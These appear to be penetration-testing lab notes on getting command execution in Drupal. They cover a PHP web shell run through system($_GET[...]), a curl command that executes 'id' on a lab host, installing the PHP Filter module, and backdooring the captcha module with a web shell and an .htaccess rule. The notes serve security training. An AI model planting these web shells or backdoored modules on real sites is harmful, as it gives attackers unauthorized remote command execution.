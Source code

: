 Code: php

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```
![](basic_page_shell_7v2%201.webp)

`use shell`
```shell-session
$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```
![](Pasted%20image%2020250212153544.png)
## WHEN PHP MODULE IS NOT PRESENT

From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default

`install the module ourselves`
```
$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
Once downloaded go to `Administration` > `Reports` > `Available updates`.

From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.

Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

---------------------------------
##  Backdoored Module Approach

`captcha module download`
```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

`create webshell`
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

`create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.`
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.
